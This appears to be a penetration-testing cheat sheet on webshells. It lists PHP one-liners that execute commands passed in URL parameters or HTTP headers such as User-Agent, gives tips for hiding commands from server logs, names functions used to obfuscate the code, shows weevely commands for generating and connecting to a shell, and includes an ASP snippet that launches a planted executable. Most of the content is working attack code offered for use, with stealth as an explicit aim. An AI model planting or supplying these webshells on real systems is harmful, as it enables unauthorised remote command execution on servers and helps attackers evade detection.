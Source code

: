 # Webshell

A webshell is a shell that you can access through the web. This is useful for when you have firewalls that filter outgoing traffic on ports other than port 80. As long as you have a webserver, and want it to function, you can't filter our traffic on port 80 (and 443). It is also a bit more stealthy than a reverse shell on other ports since the traffic is hidden in the http traffic.

You have access to different kinds of webshells on Kali here:

```
/usr/share/webshells
```

And a lot more here:

```
/usr/share/laudanum/

root@kali:/usr/share/laudanum# ls
asp  aspx  cfm  helpers  jsp  php  README  wordpress
```

## PHP

This code can be injected into pages that use php.
```php

# Execute one command
<?php system("whoami"); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>
```

You can then call then execute the commands like this:

```
http://192.168.1.103/index.php?cmd=pwd
```

### Make it stealthy

We can make the commands from above a bit more stealthy. Instead of passing the cmds through the url, which will be obvious in logs, we cna pass them through other header-paramters. The use tampterdata or burpsuite to insert the commands. Or just netcat or curl.

```php
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
<?php system($_SERVER['HTTP_USER_AGENT'])?>

# I have had to use this one
<?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

### Obfuscation

The following functions can be used to obfuscate the code.

```
eval()
assert()
base64()
gzdeflate()
str_rot13()
```

### Weevely - Incredible tool!

Using weevely we can create php webshells easily.

```
weevely generate password /root/webshell.php
```

Not we execute it and get a shell in return:

```
weevely "http://192.168.1.101/webshell.php" password
```

## ASP

```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```


## References

http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/
http://www.binarytides.com/web-shells-tutorial/
